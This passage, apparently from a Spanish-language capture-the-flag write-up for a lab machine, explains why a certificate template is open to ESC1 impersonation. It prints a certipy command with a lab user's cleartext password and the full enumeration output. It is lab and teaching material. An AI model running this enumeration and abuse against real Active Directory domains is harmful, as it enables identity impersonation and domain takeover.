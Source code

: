 ```bash
```

Probamos con el usuario `Ryan.Cooper` y esta vez sí encontramos una plantilla vulnerable. Nos apareció la plantilla `UserAuthentication`, que tiene una vulnerabilidad **ESC1** porque:

* **Cualquier usuario del dominio** puede inscribirse.
* **El solicitante puede definir el subject**, lo que nos permite suplantar identidades.
* **Soporta autenticación de cliente**, lo que nos puede servir para obtener acceso.
* **Permite exportar la clave privada**, lo que facilita su uso.

```bash
❯ certipy-ad find -u 'Ryan.Cooper'@10.10.11.202 -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'sequel-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
```